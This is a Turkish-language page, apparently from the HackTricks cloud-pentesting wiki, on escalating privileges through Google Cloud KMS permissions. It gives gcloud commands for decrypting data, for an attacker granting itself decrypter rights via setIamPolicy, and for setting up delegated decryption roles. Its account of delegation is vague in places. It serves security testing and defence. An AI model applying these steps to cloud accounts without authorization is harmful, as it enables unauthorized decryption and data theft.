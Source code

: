 # GCP - KMS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## KMS

KMS hakkında bilgi:

{{#ref}}
../gcp-services/gcp-kms-enum.md
{{#endref}}

KMS'de **izinlerin** yalnızca Org'lar, Klasörler ve Projelerden **devralınmadığını**, aynı zamanda **Anahtar Halkalarından** da **devralındığını** unutmayın.

### `cloudkms.cryptoKeyVersions.useToDecrypt`

Bu izni, üzerinde bu izne sahip olduğunuz anahtarla **bilgileri şifre çözmek için** kullanabilirsiniz.
```bash
gcloud kms decrypt \
--location=[LOCATION] \
--keyring=[KEYRING_NAME] \
--key=[KEY_NAME] \
--version=[KEY_VERSION] \
--ciphertext-file=[ENCRYPTED_FILE_PATH] \
--plaintext-file=[DECRYPTED_FILE_PATH]
```
### `cloudkms.cryptoKeys.setIamPolicy`

Bu izne sahip bir saldırgan, **kendisine izinler verebilir** ve anahtarı kullanarak bilgileri şifrelerini çözebilir.
```bash
gcloud kms keys add-iam-policy-binding [KEY_NAME] \
--location [LOCATION] \
--keyring [KEYRING_NAME] \
--member [MEMBER] \
--role roles/cloudkms.cryptoKeyDecrypter
```
### `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`

İşte bu delege işleminin nasıl çalıştığına dair kavramsal bir açıklama:

1. **Hizmet Hesabı A**, KMS'de belirli bir anahtarı kullanarak şifre çözme işlemi için doğrudan erişime sahiptir.
2. **Hizmet Hesabı B**, `useToDecryptViaDelegation` iznine sahiptir. Bu, onun KMS'den, Hizmet Hesabı A adına veri şifre çözme talep etmesine olanak tanır.

Bu **izin, KMS hizmetinin izinleri kontrol etme şekliyle örtük olarak kullanılır**; bir şifre çözme talebi yapıldığında.

Google Cloud KMS API'sini (Python veya başka bir dilde) kullanarak standart bir şifre çözme talebi yaptığınızda, hizmet **talep eden hizmet hesabının gerekli izinlere sahip olup olmadığını kontrol eder**. Eğer talep, **`useToDecryptViaDelegation`** iznine sahip bir hizmet hesabı tarafından yapılırsa, KMS bu **hesabın anahtarın sahibi olan varlık adına şifre çözme talep etmesine izin verilip verilmediğini doğrular**.

#### Delegasyon İçin Ayarlama

1. **Özel Rolü Tanımlayın**: Özel rolü tanımlayan bir YAML dosyası oluşturun (örneğin, `custom_role.yaml`). Bu dosya, `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation` iznini içermelidir. İşte bu dosyanın nasıl görünebileceğine dair bir örnek:
```yaml
title: "KMS Decryption via Delegation"
description: "Allows decryption via delegation"
stage: "GA"
includedPermissions:
- "cloudkms.cryptoKeyVersions.useToDecryptViaDelegation"
```
2. **Özel Rolü gcloud CLI Kullanarak Oluşturun**: Google Cloud projenizde özel rol oluşturmak için aşağıdaki komutu kullanın:
```bash
gcloud iam roles create kms_decryptor_via_delegation --project [YOUR_PROJECT_ID] --file custom_role.yaml
```
Replace `[YOUR_PROJECT_ID]` with your Google Cloud project ID.

3. **Bir Hizmet Hesabına Özel Rol Verin**: Bu izni kullanacak bir hizmet hesabına özel rolünüzü atayın. Aşağıdaki komutu kullanın:
```bash
# Give this permission to the service account to impersonate
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member "serviceAccount:[SERVICE_ACCOUNT_B_EMAIL]" \
--role "projects/[PROJECT_ID]/roles/[CUSTOM_ROLE_ID]"

# Give this permission over the project to be able to impersonate any SA
gcloud projects add-iam-policy-binding [YOUR_PROJECT_ID] \
--member="serviceAccount:[SERVICE_ACCOUNT_EMAIL]" \
--role="projects/[YOUR_PROJECT_ID]/roles/kms_decryptor_via_delegation"
```
`[YOUR_PROJECT_ID]` ve `[SERVICE_ACCOUNT_EMAIL]` yerlerini proje kimliğiniz ve hizmet hesabının e-posta adresi ile değiştirin. 

{{#include ../../../banners/hacktricks-training.md}}
